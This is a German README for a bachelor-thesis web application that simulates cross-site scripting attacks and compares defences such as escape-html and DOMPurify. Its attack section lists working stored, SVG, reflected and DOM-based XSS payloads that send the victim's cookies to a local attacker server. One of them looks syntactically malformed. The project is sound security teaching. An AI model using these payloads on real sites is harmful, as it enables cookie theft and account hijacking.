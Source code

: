 # Webanwendung zur Analyse und Prävention von Cross-Site-Scripting (XSS) Angriffen

Diese Webanwendung wurde im Rahmen einer Bachelorarbeit entwickelt, um XSS-Schwachstellen zu identifizieren und effektive Gegenmaßnahmen zu implementieren. Die Anwendung bietet eine Plattform, auf der verschiedene XSS-Angriffsszenarien simuliert und getestet werden können.

## Inhalt
- [Einleitung](#einleitung)
- [Technologie-Stack](#technologie-stack)
- [Installation](#installation)
- [Nutzung](#nutzung)
- [Struktur der Anwendung](#struktur-der-anwendung)
- [Mögliche Attacken](#mögliche-attacken)
- [Lizenz](#lizenz)

## Einleitung

Diese Anwendung dient als Demonstrations- und Testumgebung für verschiedene XSS-Angriffe und die dazugehörigen Schutzmaßnahmen. 
Sie wurde entwickelt, um die Sicherheitsanforderungen moderner Webanwendungen zu untersuchen und um praxisnahe Lösungen für XSS-Probleme zu bieten.


## Technologie-Stack

### Backend
- **Node.js**: Laufzeitumgebung für serverseitiges JavaScript
- **Express.js**: Webframework für Node.js zur Erstellung von Webanwendungen und APIs
- **MongoDB**: NoSQL-Datenbank zur Speicherung von Daten
- **Mongoose**: Objekt-Datenmodellierungstool für MongoDB und Node.js

### Frontend
- **HTML**: Strukturierung der Webseite
- **CSS**: Gestaltung der Webseite
- **Bootstrap**: CSS-Framework zur schnellen Gestaltung von responsiven Webanwendungen

## Installation

1. **Repository klonen:**
   ```bash
   git clone https://github.com/Bemast3r/XSS.git
2. **Ordner wechsel**
   ```bash
   cd XSS
3.  **Alles nötige installieren:**
    ```bash
    npm run update
4. **Server starten:**
Der Befehl `npm start` im Root-Ordner startet sowohl den Angreifer-Server als auch den Webanwendungs-Server:
    ```bash
    npm run start
Für das jeweilige Starten der Server kann dies erreicht werden in dem man in den jeweiligen Ordner gewechselt wird.
### Nutzung
Diese Webanwendung bietet die Möglichkeit, zwischen verschiedenen Branches zu wechseln, die unterschiedliche XSS-Gegenmaßnahmen implementieren:

- main Branch: Keine Gegenmaßnahme implementiert. Dieser Branch dient als Ausgangspunkt zur Untersuchung von XSS-Angriffen ohne Schutzmechanismen.
- html-escape Branch: In diesem Branch wird die Bibliothek escape-html verwendet, um Benutzereingaben zu entschärfen und somit XSS-Angriffe zu verhindern.
- DOMPURIFY Branch: Dieser Branch verwendet die Bibliothek DOMPurify, um potenziell gefährliche HTML-Eingaben zu bereinigen und XSS-Angriffe zu verhindern.

## Struktur der Anwendung

- **Attacker**: Beinhaltet den Hacker-Server
- **backend**: Ist der Backend-Server der Webanwendung
- **frontend**: Ist das Frontend und beinhaltet die HTML-Seiten

### Mögliche Attacken

- Stored XSS 
    - Ort: Biografiefeld im User Profile
    - Test-XSS-Payload: 
        - ``<img src="invalid_image.png" onerror="this.src='http://localhost:4000/xss_bild?cookie=' + encodeURIComponent(document.cookie);">``

- Stored XSS via SVG
    - Ort: Community.html
    - Vorbereitung:
      Zuerst muss eine SVG-Datei erstellt werden:
    - Test-XSS-SVG-Payload:
        ```html
        <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
            <image xlink:href="x" onerror="javascript:window.location='http://localhost:4000/xss_bild?cookie=' + encodeURIComponent(document.cookie);"/>
        </svg>
        ```
    - Anschließend diese Datei über das Uploadfeld hochladen

- Reflected XSS
        - Ort: Search 
    - Test-XSS-Payload: 
        - ``<audio src=1 href=1 onerror="javascript:http://localhost:4000/xss_bild?cookie=' + encodeURIComponent(document.cookie);"></audio>``
- DOM-BASED XSS
        - Ort: EchoInput - Eingabefeld
    - Test-XSS-Payload: 
        - In Browser Suchleiste:    
            - ``http://localhost:3000/Echoinput.html?input=%3Cimg+src%3D+%22keinbild%22onerror%3D%22javascript%3Awindow.location%3D%27http%3A%2F%2Flocalhost%3A4000%2Fxss%3Fcookie%3D%27+%2B+encodeURIComponent%28document.cookie%29%3B%22%3E%3C%2Fimg%3E``

### Lizenz
Dieses Projekt ist unter der MIT-Lizenz lizenziert.
